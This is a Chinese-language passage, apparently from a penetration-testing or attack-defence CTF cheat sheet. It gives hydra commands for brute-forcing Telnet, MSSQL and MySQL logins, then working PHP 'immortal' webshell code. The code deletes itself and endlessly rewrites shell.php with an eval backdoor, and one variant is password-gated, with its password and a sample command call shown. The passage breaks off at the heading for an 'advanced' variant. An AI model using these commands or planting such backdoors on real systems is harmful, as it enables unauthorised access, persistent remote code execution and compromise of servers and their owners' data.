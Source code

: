 爆破 Telnet

```c
hydra 目标IP地址 telnet -l 用户字典.txt -P 密码字典.txt -f -V
```

爆破 MSSQL 数据库

```c
hydra -l sa -P 密码字典.txt 目标IP地址 mssql
```

爆破 MySQL 数据库

```c
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 mysql
```

### 3.3# 内网渗透

#### 3.3.1 权限维持之不死马

简单不死马：

```php
<?php
set_time_limit(0);   //PHP 脚本限制了执行时间，set_time_limit(0) 设置一个脚本的执行时间为无限长
ignore_user_abort(1);  //ignore_user_abort 如果设置为 TRUE，则忽略与用户的断开，脚本将后台运行
unlink(__FILE__);     //删除自身

while(1)
{
    file_put_contents('shell.php','<?php @eval($_POST["AabyssTeam"]);?>');  //创建 shell.php
    sleep(0);    //间隔时间
}
```

可以通过不断复写 `shell.php` 来达到该木马难以被使用的效果

防连接不死马：

```php
<?php
set_time_limit(0);   // 取消脚本运行时间的超时上限
ignore_user_abort(1);  // 

while(1)
{
    file_put_contents('shell.php','<?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?>');  //创建 shell.php
    sleep(0);
}

//passwd=AabyssTeam
//POST 传参：passwd=AabyssTeam&cmd=system('ls');
```

进阶不死马：
